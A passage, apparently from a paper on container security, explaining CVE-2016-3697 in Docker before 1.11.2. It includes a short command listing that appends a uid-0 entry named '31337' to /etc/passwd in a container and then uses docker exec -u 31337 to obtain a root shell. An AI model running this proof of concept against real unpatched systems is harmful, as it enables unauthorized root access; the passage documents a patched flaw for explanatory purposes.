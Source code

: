 \subsection{CVE--2016--3697}
Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it -u 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}
